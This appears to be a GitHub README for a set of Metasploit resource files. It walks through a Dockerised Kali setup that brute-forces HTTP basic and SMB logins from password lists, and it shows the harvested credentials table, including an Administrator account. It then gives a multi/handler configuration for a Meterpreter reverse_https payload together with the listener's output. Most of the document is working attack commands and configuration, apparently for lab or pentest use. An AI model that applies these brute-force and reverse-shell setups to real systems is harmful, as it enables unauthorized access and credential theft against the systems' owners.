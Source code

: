 # Metasploit-resource-files

## Prepare a password list and a dictionary list
- [pass.list](https://github.com/DharmaDoll/Metasploit-resource-files/blob/main/pass.list)
- [uer.list](https://github.com/DharmaDoll/Metasploit-resource-files/blob/main/user.list)

## Setup docker container 
```sh
$ ./setup.sh
```

## Preparing metasploit resource file(.rc)
- [Brute force login to system using http basic authentication sample (http_basic.rc)](https://github.com/DharmaDoll/Metasploit-resource-files/blob/main/http_basic.rc)

## Run the exploit
```sh
$ ./exploit.sh kali_rolling http_basic.rc 2020_test_workspace
```

## Check result
```sh
$ docker exec -it kali_rolling msfconsole

msf6 > workspace
  2020_test_workspace
* default

msf6 > workspace 2020_test_workspace
msf6 > creds
==========
host           origin        service        public         private               realm  private_type  JtR Format
----           ------        -------        ------         -------               -----  ------------  ----------
172.21.121.2   172.21.121.2  445/tcp (smb)  mike           P@ssw0rd                     Password
172.21.121.2   172.21.121.2  445/tcp (smb)  michel         root                         Password
172.21.121.2   172.21.121.2  445/tcp (smb)  Administrator  admin                        Password
```

## Use the multi handler
##### Prepare file for [multi hander](https://github.com/DharmaDoll/Metasploit-resource-files/blob/main/resources/multihandler.rc.txt)
```
use exploit/multi/handler;
set payload windows/x64/meterpreter/reverse_https;
set LHOST 0.0.0.0;
set LPORT {{YOUR_PORT}};
run;
exit;
``` 
##### Run
```sh
$ ./handler.sh resources/multihandler.rc.txt 8499

[+] Run container(msf_handler)...
[+] Recived IP(your host) is 172.28.68.51 and port tcp/8499
...
       =[ metasploit v6.2.11-dev                          ]
+ -- --=[ 2233 exploits - 1179 auxiliary - 398 post       ]
+ -- --=[ 867 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Writing a custom module? After editing your
module, why not try the reload command

[-] Database not connected
[-] Database not connected
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/x64/meterpreter/reverse_https
LHOST => 0.0.0.0
LPORT => 8499
[*] Started HTTPS reverse handler on https://0.0.0.0:8499

```
```sh
$ docker ps
CONTAINER ID   IMAGE                 COMMAND                  CREATED          STATUS          PORTS                    NAMES
bed4e81095da   kali/msfconsole:0.1   "msfconsole -x 'work…"   13 seconds ago   Up 12 seconds   0.0.0.0:8499->8499/tcp   msf_handler
6e0ab98754fe   kali/msfconsole:0.1   "/bin/sh -c 'service…"   8 days ago       Up 8 days                                kali_rolling
```
